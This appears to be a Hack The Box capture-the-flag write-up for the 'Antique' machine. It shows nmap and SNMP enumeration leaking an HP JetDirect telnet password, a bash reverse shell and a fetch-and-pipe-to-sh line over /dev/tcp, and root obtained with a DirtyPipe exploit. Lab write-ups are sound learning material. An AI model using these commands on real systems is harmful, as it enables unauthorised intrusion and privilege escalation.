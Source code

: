 ![image](https://user-images.githubusercontent.com/105310322/187503034-e4779280-4727-4427-bad3-119e4a54ee69.png)

### Tools: Nmap, telnet, SNMP

Starting off with our nmap scan we find ports 23 and 161.

```console
└──╼ [★]$ nmap -sC -A -p 161,23 10.129.86.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-11 21:36 BST
Nmap scan report for 10.129.86.189
Host is up (0.012s latency).

PORT    STATE  SERVICE VERSION
23/tcp  open   telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
161/tcp open   snmp     SNMPv1 server (public)
```

If we try logging into telnet we can see we need a password. luckily HP jetDirect has a vulnerability associated with SNMP.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```
Running SNMP walk shows its a printer and confirms the relation to telnet. next we change the command a bit to get back a password.

```
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Converting that hex string gives us the password "P@ssw0rd@123!!123" now we can try loggin into telnet.

```console
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```
Nice now we are in as lpadmin and can get the user flag! Next we need to figure out how to privlege escalate.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> id
Err updating configuration
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> 
```
```console
> exec cat user.txt
e8b892894bb1678349dd26804cc892bf
```
Set up a listner and then we can execute this bash shell to give us a pretty good shell. Now we are going to run linpeas, I had issues with the telnet shell but after creating this new shell I was able to get and run it much easier.

```console
└──╼ [★]$ nc -lvnp 6789
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6789
Ncat: Listening on 0.0.0.0:6789
```
```console
> exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
```
We are goin to use these commands taken from the linpeas github site.

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
linpeas outputs alot of information but these 3 CVE are most notable. It also mentions cups 1.6.1 but I did not go that route.

```console
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
```

After testing all 3 I finally had some luck with this one. https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit The other were giving me issues and breaking my shell.

So we are going to navigate to /tmp and since we cannot get files on the system we can just copy and paste the exploit into our own file using ```echo 'EXPLOIT GOES HERE' > exploit.c```
NOTE: After copying and pasting the shell looks a little messed up and should look something like what is directly below. So just add the ```' > exploit.c``` and it will work fine.

```console
> <Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
>                 "cp /tmp/passwd.bak /etc/passwd;"
>                 "echo \\\"Done! Popping shell... (run commands now)\\\";"
>                 "/bin/sh;"
>             "\" root"};
>         execv("/bin/sh", argv);
> 
>         printf("system() function call seems to have failed :(\n");
> return EXIT_SUCCESS;
> ' > exploit.c
```

I confirm the file is created.

```console
lp@antique:/tmp$ ls
ls
exp
exp.c
exploit.c
f
passwd.bak
solve.py
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-logind.service-8gv78i
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-timesyncd.service-tXY3Ah
tmux-7
vmware-root_872-2697532841
```
Then I compile and run it.

```console
lp@antique:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
lp@antique:/tmp$ ./exploit
./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
su root
Password: aaron
```

The exploit works and we get the flag!!!

```console
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3573f881d294e079a4d1141e1e8c1626
```

This is not the only method. I'm sure the other CVE's could have worked and The Cups 1.6.1 read file from root exploit is also confirmed to work. Also there was another version of the same CVE that I used that nearly worked but it wanted me to input a password that I did not have. Luckily I saw this one that came with a password.

GG!
